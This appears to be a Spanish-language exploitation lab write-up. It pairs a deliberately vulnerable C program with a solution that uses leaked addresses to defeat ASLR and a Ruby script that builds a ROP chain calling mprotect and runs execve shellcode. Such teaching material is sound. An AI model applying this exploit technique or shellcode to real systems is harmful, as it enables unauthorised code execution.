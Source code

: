 # ROP-02

**Objetivo**: Lograr ejecutar código arbitrario en el siguiente programa:

```c
// rop-02.c

#include <sys/types.h>
#include <sys/stat.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

void aid() {
  asm("pop %rdi; ret");
  asm("pop %rsi; ret");
  asm("pop %rdx; ret");
}

int main(int argc, char **argv) {
    char x;
    char buffer[256];

    // Obtenemos el valor del base pointer.
    register uint64_t rbp asm("rbp");

    // Obtenemos el valor de la dirección de retorno.
    uint64_t *ret_addr = (uint64_t *)(rbp + 8);

    // Obtenemos el valor del canario.
    uint64_t canario = *(uint64_t *)(rbp - 8);

    printf("\n");
    printf("Explotando una vulnerabilidad de lectura obtenemos "
           "los siguientes valores:\n\n");

    printf("Canario:\n");
    printf("0x%lx\n\n", canario);

    printf("&x:\n");
    printf("%p\n\n", &x);

    printf("&exit:\n");
    printf("%p\n\n", exit);
    
    printf("&aid:\n");
    printf("%p\n\n", aid);

    printf("Inyectar shellcode en el stack y ejecutarlo.\n");
    getchar();
    
    int fd = open("/tmp/rop-02/input.bin", O_RDONLY);
    
    read(fd, &buffer, 512);
    return 0;
}
```



## Solución

Observaremos que este ejercicio es muy similar a [rop-01](../rop-01/rop-01.c), salvo por las direcciones con las que contamos. En este caso no contamos ni con la dirección de la función mprotect ni con la de nuestro buffer. Dichas direcciones son necesarias para el desarrollo de nuestro exploit por lo que será necesario obtenerlas de alguna forma.

Oportunamente, contamos con otras dos direcciones: la dirección de la función exit, y la dirección de la variable `x`. La primera es una dirección en el segmento en el que se encuentra mapeada la biblioteca estándar de C; la segunda es una dirección en el stack. Como habíamos visto en el [resumen de ASLR](../../mitigaciones/aslr/aslr.md), si bien la mitigación puede aleatorizar direcciones absolutas de una ejecución a otra, no puede aleatorizar distancias entre elementos en un mismo segmento.

Lo que haremos entonces es compilar este programa, abrirlo con gdb, poner un breakpoint en main, e iniciar la ejecución. Si hacemos eso y ejecutamos el comando "vmmap" de gef observaremos algo como lo siguiente:

![vmmap](img/vmmap.png)

Vemos que distintas secciones de la biblioteca de libc, provenientes del binario libc-2.27.so, están mapeadas desde `0x7ffff79e4000` hasta `0x7ffff7dd1000`. Si escribimos `print exit` observaremos que la dirección se encuentra efectivamente comprendida dentro de este rango:

![print-exit](img/print-exit.png)

Dado que el programa nos provee la dirección de la función exit, lo que podemos hacer es sumarle a esa dirección la distancia desde exit hasta mprotect para obtener la dirección de esta última. En gdb podemos ejecutar `print mprotect - exit` para obtener dicha distancia:

![libc-delta](img/libc-delta.png)

Dicha distancia es propia del binario libc-2.27.so de Ubuntu 18.04 Desktop x64; si nuestro information leak nos permite obtener una dirección en libc, digamos la de exit, y sabemos por un estudio previo que el sistema objetivo utiliza el mismo binario de libc, entonces podemos estimar que la función mprotect se encontrará en `&exit + 0xd89c0`.



De la misma forma podemos obtener la dirección de nuestro buffer. En este caso sabemos que la variable `x` se almacenará unos pocos bytes debajo de nuestro buffer. Para determinar cuántos bytes concretamente solo hace falta revisar el código assembly de main. Los bloques relevantes son los siguientes:

```
   0x00005555555548e6 <+143>:	lea    rax,[rbp-0x125]
   0x00005555555548ed <+150>:	mov    rsi,rax
   0x00005555555548f0 <+153>:	lea    rdi,[rip+0x1a2]        # 0x555555554a99
   0x00005555555548f7 <+160>:	mov    eax,0x0
   0x00005555555548fc <+165>:	call   0x5555555546f0 <printf@plt>
```

```
   0x0000555555554979 <+290>:	lea    rcx,[rbp-0x110]
   0x0000555555554980 <+297>:	mov    eax,DWORD PTR [rbp-0x124]
   0x0000555555554986 <+303>:	mov    edx,0x200
   0x000055555555498b <+308>:	mov    rsi,rcx
   0x000055555555498e <+311>:	mov    edi,eax
   0x0000555555554990 <+313>:	call   0x555555554700 <read@plt>
```

El primer bloque ejecuta la llamada a printf que muestra la dirección de x en pantalla. La dirección de la variable la pasamos en el registro rsi, que observamos tendrá el valor `rbp-0x125`. El segundo bloque realiza la llamada a read. La dirección del buffer la pasamos en el segundo argumento, en el registro rsi. Observamos que en este caso tendrá el valor `rbp-0x110`. La distancia desde la variable hacia el buffer es entonces `(rbp-0x110) - (rbp-0x125) = 0x125 - 0x110 = 0x15`.



Lo que podemos hacer entonces es tomar el script que habíamos utilizado para resolver rop-01 y modificarlo ligeramente.

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")

p_len = payload.length

# Completar con el valor del canario
canary = 0x0

# Completar con la dirección de x
addr_x = 0x0
addr_buffer = addr_x + 0x15

# Completar con la dirección de exit
addr_exit = 0x0
addr_mprotect = addr_exit + 0xd89c0

# Completar con la dirección de aid
addr_aid = 0x0

# Completar con la cantidad de bytes desde el inicio del buffer
# hasta la dirección de retorno. Debe ser mayor a la longitud del payload + 16.
bytes_until_ret = 0x0

# Llenamos con bytes hasta llegar al canario.
fill_0 = ("\x90"*(bytes_until_ret - p_len - 16)).force_encoding("ASCII-8BIT")

# Ingresamos el el canario, y luego 8 bytes adicionales.
fill = fill_0 + [canary].pack(">Q") + ("\x90"*8).force_encoding("ASCII-8BIT")

# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer
].pack(">Q*")

# Generamos el exploit.
puts payload.force_encoding("ASCII-8BIT") + fill + chain
```



Observaremos que el nuevo código es solo el siguiente:

```ruby
# Completar con la dirección de x
addr_x = 0x0
addr_buffer = addr_x + 0x15

# Completar con la dirección de exit
addr_exit = 0x0
addr_mprotect = addr_exit + 0xd89c0
```

Las direcciones del buffer y de mprotect se calculan ahora en base a las que nos son provistas. Lo que resta ahora es primero ejecutar el programa:

![run](img/run.png)



Luego reemplazamos los valores en el script y generamos la entrada. La cantidad de bytes desde el buffer hasta la dirección de retorno sigue siendo 0x118.

![input](img/input.png)



Si presionamos enter en la terminal donde rop-02 se está ejecutando deberíamos observar que nuestro shellcode se ejecuta exitosamente:

![win](img/win.png)



## Conclusión

Con este ejercicio hemos visto en más detalle como un information leak puede comprometer un programa. No hace falta obtener direcciones precisas mientras sea posible calcular las direcciones de elementos cercanos. Hay que tener en cuenta, sin embargo, que los offsets en segmentos de código dependen de cómo el binario en cuestión haya sido compilado. Eso incluye la versión del compilador, los flags, y por supuesto la versión del software siendo compilado.